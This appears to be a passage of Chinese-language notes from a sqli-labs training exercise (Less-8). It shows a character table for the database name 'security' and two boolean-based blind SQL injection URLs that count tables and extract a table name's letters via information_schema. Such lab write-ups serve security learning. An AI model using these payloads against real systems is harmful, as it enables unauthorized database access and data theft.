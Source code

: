 ![image-20241007034154662](./assets/image-20241007034154662.png)

```cmd
#整理一下--> security
1,s,S
2,e,E
3,c,C
4,u,U
5,r,R
6,i,I
7,t,T
8,y,Y
```

```sql
#获取表的个数emails,referers,uagents,users-->4 
http://8.137.60.154:8082/Less-8/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

```sql
#获取第四张表的名字-->users
http://8.137.60.154:8082/Less-8/?id=1'and substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1)="u" --+
```
